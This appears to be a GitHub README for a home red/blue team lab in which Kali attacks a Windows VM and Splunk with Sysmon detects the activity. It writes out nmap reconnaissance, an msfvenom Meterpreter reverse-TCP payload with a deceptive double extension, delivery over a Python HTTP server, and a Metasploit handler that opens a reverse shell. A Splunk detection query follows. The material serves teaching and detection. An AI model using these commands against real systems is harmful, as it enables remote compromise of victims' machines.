







# Home-SOC-Lab-Red-Blue-Team-Simulation
A virtualized red team / blue team lab using Kali Linux (attacker) and a Windows VM running Splunk (defender) on an isolated VirtualBox internal network.
# 🔐 Home Penetration Testing Lab

A virtualized red team / blue team lab using Kali Linux (attacker) and a Windows VM running Splunk (defender) on an isolated VirtualBox internal network.

# 🔐 Home SOC Lab – Red & Blue Team Simulation

This project demonstrates a home cybersecurity lab where I simulated real-world attacks using Kali Linux and detected the activity using Splunk SIEM and Sysmon logs.

---

## 🧱 Lab Architecture

The lab environment consists of a Kali Linux attacker machine and a Windows VM running Splunk and Sysmon for monitoring, connected through an isolated VirtualBox internal network.



---

## 🧱 Lab Setup

| Component | Details |
|-----------|---------|
| Attacker | Kali Linux — `192.168.0.152` |
| Target | Windows (Splunk) — `192.168.0.153` |
| Network | VirtualBox Internal Network (`tandy`) |
| Defender disabled | Windows Defender real-time protection OFF |

---

## ⚔️ Attack Chain

### 1. Reconnaissance
```bash
nmap -A 192.168.0.153 -Pn

```


### 2. Payload Generation (MSFVenom)
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp \
  LHOST=192.168.0.152 LPORT=4444 -f exe -o test2.exe.pdf.exe
```


### 3. Payload Delivery (Python HTTP Server)
```bash
python3 -m http.server 9999
```

> Victim downloads `test2.exe.pdf.exe` via browser from `http://192.168.0.152:9999`

### 4. Listener & Shell
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter_reverse_tcp
set LHOST 192.168.0.152
exploit
```

> ✅ **Meterpreter session opened: `192.168.0.152:4444 → 192.168.0.153:55532`**

### 5. Verification (on victim)
```cmd
netstat -anob | findstr 4444
# TCP 192.168.0.153:53060  192.168.0.152:4444  ESTABLISHED
```


---

## 🔵 Detection with Splunk

Sysmon logs forwarded to Splunk Enterprise via `inputs.conf` → `index=endpoint`
```spl
index="endpoint" test2.pdf.exe
```

> 4 events returned — process execution, parent process (`Explorer.EXE`), SHA256 hash, and user logged

---

## 🛠️ Tools Used

`Kali Linux` · `Metasploit / MSFVenom` · `Nmap` · `Python HTTP Server` · `Splunk Enterprise` · `Sysmon` · `VirtualBox`

---

> ⚠️ **Disclaimer:** For educational purposes only in an isolated lab environment.
